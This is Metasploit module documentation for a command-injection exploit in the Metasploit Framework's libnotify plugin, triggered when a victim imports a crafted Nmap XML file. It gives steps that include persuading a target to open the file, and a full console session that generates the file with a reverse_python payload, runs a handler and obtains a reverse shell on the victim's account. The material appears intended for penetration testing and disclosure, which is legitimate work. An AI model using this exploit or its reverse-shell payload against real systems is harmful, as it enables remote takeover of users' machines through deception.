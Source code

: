 ## Vulnerable Application

Metasploit Framework versions prior to 5.0.77 are vulnerable to a command
injection vulnerability in the default `libnotify` plugin. The `libnotify`
plugin fails to properly parse the argument array to an executed operating
system command. If an attacker can convince a user running an affected version
of the Metasploit Framework with the `libnotify` plugin loaded to import a
specially crafted data file with `db_import`, they can execute a command within
the context of the user running Metasploit.

In order to trigger the vulnerable code path, the service reported must be
unique. This means that when the exploit file is loaded, it will not trigger the
vulnerability again unless the service is removed. The easiest way to remove the
service is to delete all services from the database using the `services -d`
command.

## Verification Steps

  Example steps in this format (is also in the PR):

  1. Install the application
  1. Start msfconsole
  1. Do: `use exploit/unix/fileformat/metasploit_libnotify_cmd_injection`
  1. Set options as appropriate
  1. Do: `exploit`
  1. Start a payload handler using `exploit/multi/handler`
  1. Transfer the file to the intended target and convince them to open it

## Scenarios

### Metasploit Framework v5.0.76


```
msf5 > use exploit/unix/fileformat/metasploit_libnotify_cmd_injection 
msf5 exploit(unix/fileformat/metasploit_libnotify_cmd_injection) > show options 

Module options (exploit/unix/fileformat/metasploit_libnotify_cmd_injection):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   FILENAME  scan.xml         no        The file to write.


Payload options (cmd/unix/reverse_python):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.159.128  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
   SHELL  /bin/bash        yes       The system shell to use.

   **DisablePayloadHandler: True   (RHOST and RPORT settings will be ignored!)**


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(unix/fileformat/metasploit_libnotify_cmd_injection) > exploit

[*] Writing xml file: scan.xml
[+] scan.xml stored at /home/smcintyre/.msf4/local/scan.xml
msf5 exploit(unix/fileformat/metasploit_libnotify_cmd_injection) > use exploit/multi/handler 
msf5 exploit(multi/handler) > show options 

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (cmd/unix/reverse_python):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.159.128  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
   SHELL  /bin/bash        yes       The system shell to use.


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
^C[-] Exploit failed [user-interrupt]: Interrupt 
[-] exploit: Interrupted
msf5 exploit(multi/handler) > exploit -j
[*] Exploit running as background job 3.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.159.128:4444 
msf5 exploit(multi/handler) > version
Framework: 5.0.76-dev-50cfb07cff
Console  : 5.0.76-dev-50cfb07cff
msf5 exploit(multi/handler) > load libnotify
[*] Successfully loaded plugin: libnotify
msf5 exploit(multi/handler) > services -d
Services
========

host  port  proto  name  state  info
----  ----  -----  ----  -----  ----

msf5 exploit(multi/handler) > db_import /home/smcintyre/.msf4/local/scan.xml
[*] Importing 'Nmap XML' data
[*] Import: Parsing with 'Nokogiri v1.10.8'
[*] Importing host 192.168.20.121
sh: line 1: State:: command not found
sh: line 2: Proto:: command not found
sh: -c: line 3: unexpected EOF while looking for matching `''
sh: -c: line 4: syntax error: unexpected end of file
[*] Successfully imported /home/smcintyre/.msf4/local/scan.xml
msf5 exploit(multi/handler) > [*] Command shell session 4 opened (192.168.159.128:4444 -> 192.168.159.128:35516) at 2020-04-16 14:54:39 -0400

msf5 exploit(multi/handler) > sessions -i 4
[*] Starting interaction with 4...

id
uid=1000(smcintyre) gid=1000(smcintyre) groups=1000(smcintyre),10(wheel),974(wireshark),975(docker) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```